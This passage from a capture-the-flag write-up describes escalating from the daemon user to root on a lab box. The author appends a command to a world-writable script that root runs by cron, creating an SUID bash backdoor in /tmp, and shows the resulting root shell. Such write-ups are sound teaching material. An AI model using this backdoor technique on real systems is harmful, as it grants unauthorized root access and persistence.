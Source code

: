 The user flag is at `/user/user.txt`.

## 7. Privesc, deamon -> root - cronjob 

Catting `/etc/passwd` shows 1 non-system, non-root user minotaur, but the previously discovered credentials do not allow us to switch to the minotaur user. Manual enumeration of the box finds two unusual directories in the root, `/timers` and `/reminders`. `/timers` includes a globally writeable script `timer.sh` that writes output to `/reminders/dontforget.txt`. Looking at the permissions for `/reminders/dontforget.txt`, we see that it is owned by root and is updated every minute :

```console
daemon@labyrinth:/opt/lampp/htdocs$ ls -l /reminders
total 40
-rw-r--r-- 1 root root 32850 nov    7 20:01 dontforget.txt
```

Presumably then a cronjob runs `/timers/timer.sh` as root once a minute. As the script is writeable, we can simply add a line that copies an SUID bash binary into temp, providing a persistent root shell :

```console
daemon@labyrinth:/opt/lampp/htdocs$ echo "cp /bin/bash /tmp/backdoor && chmod u+s /tmp/backdoor" >> /timers/timer.sh
daemon@labyrinth:/opt/lampp/htdocs$ /tmp/backdoor -p
/tmp/backdoor -p
whoami
root
```

The root flag is at `/root/root.txt`.
